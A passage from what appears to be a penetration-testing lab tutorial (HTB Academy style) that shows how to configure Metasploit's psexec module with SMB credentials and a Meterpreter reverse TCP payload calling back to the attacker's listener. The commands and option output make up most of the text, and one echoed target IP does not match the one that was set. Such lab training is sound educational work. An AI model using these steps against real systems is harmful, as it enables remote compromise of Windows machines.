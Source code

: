 ```shell
   SMBUser                                no        The username to authenticate as

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     68.183.42.102    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic

```

This is one area where Metasploit shines in terms of ease of use. In the output of the module options, we see various options and settings with a description of what each setting means. We will not be using `SERVICE_DESCRIPTION`, `SERVICE_DISPLAY_NAME` and `SERVICE_NAME` in this section. Notice how this particular exploit will use a reverse TCP shell connection utilizing `Meterpreter`. A Meterpreter shell gives us far more functionality than a raw TCP reverse shell, as we established in this module's earlier sections. It is the default payload that is used in Metasploit.

We will want to use the `set` command to configure the following settings as such:

#### Setting Options

```shell

msf6 exploit(windows/smb/psexec) > set RHOSTS 10.129.180.71
RHOSTS => 10.129.142.172
msf6 exploit(windows/smb/psexec) > set SHARE ADMIN$
SHARE => ADMIN$
msf6 exploit(windows/smb/psexec) > set SMBPass HTB_@cademy_stdnt!
SMBPass => HTB_@cademy_stdnt!
msf6 exploit(windows/smb/psexec) > set SMBUser htb-student
SMBUser => htb-student
msf6 exploit(windows/smb/psexec) > set LHOST 10.10.14.222
LHOST => 10.10.14.222

```

These settings will ensure that our payload is delivered to the proper target ( `RHOSTS`), uploaded to the default administrative share ( `ADMIN$`) utilizing credentials ( `SMBPass` & `SMBUser`), then initiate a reverse shell connection with our local host machine ( `LHOST`).

These settings will be specific to the IP address on your attack box and on the target box. As well as with credentials you may gather on an engagement. We can set the LHOST (local host) VPN tunnel IP address or the VPN tunnel interface ID.

#### Exploits Away
